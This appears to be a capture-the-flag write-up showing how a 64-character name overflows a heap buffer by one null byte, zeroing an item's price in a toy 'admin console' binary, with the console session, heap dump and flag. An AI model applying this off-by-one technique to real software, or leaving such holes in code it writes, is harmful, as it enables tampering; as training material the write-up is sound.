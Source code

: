 # Proof of Concept

## TL;DR

- Heap overflow to edit price below 67

- Name array size is 64, so you can input 64 characters during edit so that the null identifier `'\0'` overwrites price

- Example of overflow:
```
Tuff Admin Console V2
Balance of account: 67
Select action:
1. Add Item
2. Edit Item
3. View Item
4. Test Buy Item
0. nothing
> 1
Enter item name: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
Randomizing price to: 153

Tuff Admin Console V2
Balance of account: 67
Select action:
1. Add Item
2. Edit Item
3. View Item
4. Test Buy Item
0. nothing
> 3
Enter item index to view: 0
Item Name: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaa
Item Price: 153

Tuff Admin Console V2
Balance of account: 67
Select action:
1. Add Item
2. Edit Item
3. View Item
4. Test Buy Item
0. nothing
> 2
Enter item index to edit: 0
Enter new item name: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa

Tuff Admin Console V2
Balance of account: 67
Select action:
1. Add Item
2. Edit Item
3. View Item
4. Test Buy Item
0. nothing
> 3
Enter item index to view: 0
Item Name: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa
Item Price: 0

Tuff Admin Console V2
Balance of account: 67
Select action:
1. Add Item
2. Edit Item
3. View Item
4. Test Buy Item
0. nothing
> 4
Enter item index to buy: 0
[Debug] reading flag
HCS{omg_h343p_g00att_s0_tUFFFF_<3}
```

- Notice the 2nd chunk has one extra character overflowed, making the price int `0x0000000000000000`:
```
0x55555556b2a0  0x0000000000000000      0x0000000000000051      ........Q.......
0x55555556b2b0  0x6161616261616161      0x6161616461616163      aaaabaaacaaadaaa
0x55555556b2c0  0x6161616661616165      0x6161616861616167      eaaafaaagaaahaaa
0x55555556b2d0  0x6161616a61616169      0x6161616c6161616b      iaaajaaakaaalaaa
0x55555556b2e0  0x6161616e6161616d      0x006161706161616f      maaanaaaoaaapaa.
0x55555556b2f0  0x000000000000008d      0x0000000000000051      ........Q.......
0x55555556b300  0x6161616261616161      0x6161616461616163      aaaabaaacaaadaaa
0x55555556b310  0x6161616661616165      0x6161616861616167      eaaafaaagaaahaaa
0x55555556b320  0x6161616a61616169      0x6161616c6161616b      iaaajaaakaaalaaa
0x55555556b330  0x6161616e6161616d      0x616161706161616f      maaanaaaoaaapaaa
0x55555556b340  0x0000000000000000      0x000000000000ecc1      ................       <-- Top chunk

```

### Flag: 
> HCS{omg_h343p_g00att_s0_tUFFFF_<3}